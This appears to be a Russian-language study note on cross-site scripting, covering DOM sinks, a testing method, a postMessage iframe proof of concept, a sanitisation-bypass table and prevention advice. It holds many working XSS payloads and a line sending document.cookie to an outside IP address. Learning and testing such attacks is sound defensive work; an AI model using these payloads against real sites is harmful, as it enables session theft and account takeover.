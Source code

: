 # Поиск точек для ввода
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Существует несколько способов выполнения JavaScript в HTML:
1. Тег <script>
2. Обработчики событий в атрибутах (начинающиеся с on)
    <img src=x onerror=alert(1)> <audio src=x onerror=alert(1)> <iframe src=x onerror=alert(1)> <video src=x onerror=alert(1)>
3. Псевдопротокол javascript:
    https://target/login?target=javascript:alert(1)
4. Перенаправление страниц query параметры
    ?returnTo=javascript:alert(document.cookie)
5. Обход санитизации
     " onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//

Для XSS важно понимание построения DOM в браузере и то как попадает пользовательский ввод на страницу. 
Есть три основных способа:
* <b>innerText</b> выводит только текст без HTML-форматирования, идентичный тому, как если бы вы смотрели на страницу. > пользовательский ввод интерпритируется как обычный текст. innerText учитывает CSS-правила, и если элемент скрыт через display: none, он не попадет в вывод innerText.
console.log(document.querySelector('.styledText').innerText);
* <b>innerHTML</b> позволяет манипулировать HTML-структурой элементов, включая теги и стили. Это уязвимость для XSS. Но <script> не отработает, т.к. важно понимать контект вставки (какой тег). Но <img src="qweqwe" onerror="alert()"> может быть исполнен
// Добавляем HTML-элементы
document.querySelector('.content').innerHTML = '<div class="new">Новый элемент</div>';
* <b>value></b> применяется для работы с значениями интерактивных элементов, таких как input, textarea или select.
// Значения, введенные пользователем, становятся данными
document.querySelector('#username').value = 'user123';

### Методика: 
1. Вставить текст и понять где на странице отобразилось сообщение: <b>blablabla</b>
Открыть консоль разработчика и найти место вывода ввода
[+] пропали теги и текст выделен > innerHTML
[-] теги сохранились innetText, value >
[?] теги санитизированы

### DOM XSS
Вставить текст и понять где на странице отобразилось сообщение: 
<b>blablabla</b>           # <img src=x onerror=alert(1)>
{{ 9 * 9}}                 # {{$on.constructor('alert(1)')()}}
""--blablabla              # ""--alert--""
'"--blablabla              # '"--alert--"'
\"-alert(1)}//             # экранирование нагрузки и комментирование кода JS 

##### Web Messaging. postMessage()
- обмен информацией между вкладками
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages 
```js
// DevTools Console:
>>> window.addEventListener('message', (e) => { console.log(e.data)})
>>> window.postMessage('TEST')
    TEST // также проверить где на странице отобразился этот пайлоад
>>> window.postMessage('<img src=x onerror=alert(1)>')
// Vulnerable code (sample)
addEventListener < source
.innerHTML < sink
```
PoC: Идея в том, что жертва переходит на сайт хакера, где содержится код обращающийся к открытому сайту в соседней вкладке
`<iframe src="https://vulnerable.lab/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`
Защита:
```
1. Использование заголовков
Cross-Origin-Opener-Policy: same-origin
Cross-Origin-Embedder-Policy: require-corp
2. Проверка в коде заголовков `Origin` и `source`
3. Не использовать addEventListener
4. Не использовать уязвимые обработчики событий
```

[+] тест отобразился в контексте </script> или обработчиках особенно:
    element.innerHTML = "<HTML> Tags and markup";
    element.outerHTML = "<HTML> Tags and markup";
    document.write
    innerHTML
    document.getElementById
    location.search
[+] тест отобразился в URL /?search=<b>blablabla<%2Fb>
[+] наличие eval в фронтальных скриптах
Альтернативно открыть консоль разработчика и в консоли вставить 
`document.getElementsByTagName(“body”)`
`body = document.getElementsByTagName("body")[0]`
`body.innerHTML`
`body.innerHTML = "<h1>Magic!</h1>"`

3. Обход санитизации
Найти функции типа replace
|Скрипт санитизации                             |Способ обхода                  |
|-----------------------------------------------|-------------------------------|
|html.replace('<', '&lt;').replace('>', '&gt;');|<><img src=1 onerror=alert(1)> |
 

'-alert(1)-'
""alert(1)-'

### POC
```
onerror=document.location=’http://192.168.48.165:8000/c?c=’+document.cookie>
```
 
 
# Payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
https://github.com/coffinxp/payloads/tree/main"
https://aszx87410.github.io/beyond-xss/en/

# How to prevent
- использование CSP
- Валидация пользовательского ввода по белым (разрешенным) спискам
- Использование санитизации. Используйте библиотеки, такие как [sanitize-url](https://www.npmjs.com/package/@braintree/sanitize-url) или [DOMPurify](https://www.npmjs.com/package/dompurify). Для приложений обрабатывающих критичные данные, с большим количеством пользователей или имеющих выход в интернет - санитизация и валидация должна быть реализована как на фронтальном так и на серверном компоненте.
- Не передавайте пользовательский ввод в контекст innerHTML
- Не используйте опасные функции eval(),
- При использовании фреймворков (vue.js, react.js, django.py, etc):
    * Никогда не используйте ненадёжные шаблоны 
    ```js
    Vue.createApp({
    template: `<div>` + userProvidedString + `</div>` // НИКОГДА ТАК НЕ ДЕЛАЙТЕ
    }).mount('#app')
    ```